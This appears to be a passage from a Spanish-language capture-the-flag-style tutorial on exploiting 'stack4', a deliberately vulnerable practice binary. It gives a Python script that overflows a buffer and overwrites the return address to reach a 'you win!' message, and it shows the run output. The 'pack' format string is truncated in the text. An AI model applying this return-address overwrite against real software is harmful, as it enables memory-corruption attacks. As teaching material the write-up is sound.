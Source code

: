 * Armamos un archivo en Python para ingresar el input: exploit.py

```
#! /usr/bin/env python
"""Uso: ./exploit.py | ./stack4 """
import sys
from struct import pack
   
ret_addr = 0x0804849c                               #addr de printf("you win!")
   
exploit  = "A" * 80                                 #fill buf
exploit += "BBBB"                                   #fill cookie
exploit += "CCCC"                                   #fill ebp
exploit += pack(", ret_addr)                     #set return address
   
sys.stdout.write(exploit)
```

> **Consideraciones**: en python es posible convertir a formato little endian una dirección importando `struct` y usando la función `pack`: `pack("`

1.  `Ejecutamos el exploit`

    ```
    user@abos:~$ ./exploit.py | ./stack4
    buf: bffff5a4 cookie: bffff5f4
    you win!
    Segmentation fault
    user@abos:~$
    ```

    La condición que evalúa el valor de `cookie` es falsa, pero después de ejecutarse el código de `main()` la dirección de retorno apunta a `printf()`, por lo que se salta allí y se imprime `you win!` por pantalla.

    Gráficamente logramos el siguiente resultado:

![](<../../.gitbook/assets/imagen (103).png>)
